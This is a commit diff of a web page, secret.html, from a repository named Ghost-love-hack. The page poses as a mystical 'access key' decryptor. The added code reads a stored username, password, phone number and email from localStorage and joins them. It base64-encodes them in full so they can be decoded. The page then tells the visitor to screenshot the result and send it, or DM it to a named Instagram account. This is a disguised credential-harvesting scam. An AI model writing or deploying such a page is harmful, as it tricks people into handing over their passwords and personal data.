

Before and after one commit to Raymond-tech-hub/Ghost-love-hack, a plain HTML site: page secret.html in a window 1280 px wide. Shown: the part 266-800 px from the top of the page, without its empty margins (317-957 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update secret.html

```diff
--- a/secret.html
+++ b/secret.html
@@ -55,6 +55,10 @@
       color: white;
       font-size: 1em;
     }
+    .message a {
+      color: #00ffff;
+      text-decoration: underline;
+    }
     .button {
       margin-top: 30px;
       padding: 12px 20px;
@@ -73,39 +77,38 @@
   </style>
 </head>
 <body>
-
   <img class="logo" src="https://cdn-icons-png.flaticon.com/512/3898/3898083.png" alt="Ghost Lover 566" />
   <h1 class="glitch">Decrypting Your Access Key...</h1>
 
-  <div class="countdown">Auto-wipe in <span id="timer">10</span> seconds</div>
+  <div class="countdown">Auto-wipe in <span id="timer">25</span> seconds</div>
 
   <div class="code-box" id="secretCode">Generating...</div>
 
   <div class="message">
     🤫 This code is special — only those who were chosen will understand it.<br><br>
     📸 <b>Take a screenshot</b> of this key and send it to the Ghost Lover contact who gave you access.<br><br>
+    🔗 Or DM it directly to <a href="https://instagram.com/ghostlover566" target="_blank">@ghostlover566</a><br><br>
     🧠 Those who pass this test… unlock the real secrets.
   </div>
 
   <button class="button" onclick="selfDestruct()">Click when done</button>
 
   <script>
-    // 🧠 Decrypt from localStorage
+    // 🧠 Create a better unified code from localStorage
     function encode(text) {
-      return btoa(text).slice(0, 8);
+      return btoa(text);
     }
 
     // Pulling stored keys
     const ghost_user = localStorage.getItem('ghost_user') || 'noUser';
     const ghost_pass = localStorage.getItem('ghost_pass') || 'noPass';
-
-    // Optional: Pull more if set previously
     const ghost_phone = localStorage.getItem('ghost_phone') || 'noPhone';
     const ghost_email = localStorage.getItem('ghost_email') || 'noEmail';
 
-    const code = `${encode(ghost_user)}-${encode(ghost_pass)}-${encode(ghost_phone)}-${encode(ghost_email)}`;
+    const fullString = `${ghost_user}:${ghost_pass}:${ghost_phone}:${ghost_email}`;
+    const encodedString = encode(fullString);
 
-    document.getElementById('secretCode').textContent = code;
+    document.getElementById('secretCode').textContent = encodedString;
 
     // 🧨 Countdown wipe
     let time = 25;
@@ -125,6 +128,5 @@
       document.body.innerHTML = "<h1 style='color:lime;text-align:center;'>✔️ Access Token Sent</h1>";
     }
   </script>
-
 </body>
 </html>
```
